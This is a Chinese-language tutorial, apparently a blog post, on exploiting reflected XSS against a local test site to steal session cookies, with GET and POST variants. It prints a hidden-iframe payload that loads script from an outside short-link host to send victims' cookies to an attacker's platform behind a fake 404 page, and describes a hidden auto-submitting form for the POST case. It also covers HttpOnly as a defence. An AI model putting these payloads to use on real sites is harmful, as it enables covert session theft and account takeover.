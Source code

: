 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20190128203026880.png)

**我们还可以服务端设置会话Cookie的HTTP Only属性**，这样，客户端的JS脚本就不能获取Cookie信息了

## 反射型XSS的利用姿势

我们现在发现一个网站存在反射型XSS，当用户登录该网站时，我们通过诱使用户点击我们精心制作的恶意链接，来盗取用户的Cookie并且发送给我们，然后我们再利用盗取的Cookie以用户的身份登录该用户的网站。

### get型

当我们输入参数的请求类型的get类型的，即我们输入的参数是以URL参数的形式。如下图

该链接的为：[http://127.0.0.1/vulnerabilities/xss\_r/?name=<script>alert(/xss/)</script>](http://127.0.0.1/vulnerabilities/xss_r/?name=)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20190128204637630.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky%2Csize_16%2Ccolor_FFFFFF%2Ct_70)

那么，我们要怎么构造恶意代码来诱使用户点击并且用户点击后不会发现点击了恶意链接呢？

我们构造了如下代码，将其保存为html页面，然后放到我们自己的服务器上，做成一个链接。当用户登录了存在漏洞的网站，并且用户点击了我们构造的恶意链接时，该链接页面会偷偷打开iframe框架，iframe会访问其中的链接，然后执行我们的js代码。该js代码会把存在漏洞网站的cookie发送到我们的平台上，但是用户却浑然不知，他会发现打开的是一个404的页面！

    <iframe src="http://127.0.0.1/vulnerabilities/xss_r/?name=<script src=https://t.cn/EtxZt8T></script>" style="display:none;"></iframe>
        

    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20190415092259653.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky%2Csize_16%2Ccolor_FFFFFF%2Ct_70)

而我们的XSS平台将得到用户的Cookie，然后我们就可以利用得到的Cookie以用户的身份访问该网站了。

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20190128220003931.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky%2Csize_16%2Ccolor_FFFFFF%2Ct_70)

注：我们的攻击代码可以利用的前提是存在XSS漏洞的网站的X-Frame-options未配置，并且会话Cookie没有设置Http Only属性

### post型

我们现在知道一个网站的用户名输入框存在反射型的XSS漏洞

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2019013018333170.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky%2Csize_16%2Ccolor_FFFFFF%2Ct_70)

我们抓包查看

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20190130191523710.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky%2Csize_16%2Ccolor_FFFFFF%2Ct_70)

我们构造了如下代码，将其保存为html页面，然后放到我们自己的服务器上，做成一个链接。当用户登录了存在漏洞的网站，并且用户点击了我们构造的恶意链接时，该恶意链接的页面加载完后会执行js代码，完成表单的提交，表单的用户名参数是我们的恶意js代码。提交完该表单后，该js代码会把存在漏洞网站的cookie发送到我们的平台上，但是用户却浑然不知，他会发现打开的是一个404的页面。

我们这里写了一个404页面，404页面中隐藏了一个form提交的表单，为了防止提交表单后跳转，我们在表单下加了一个iframe框架，并且iframe框架的name等于form表单的target，并且我们设置iframe框架为不可见。

    
        

当用户点击了我们构造的恶意链接，发现打开的是一个404页面。实际上这个页面偷偷的进行了表单的提交。
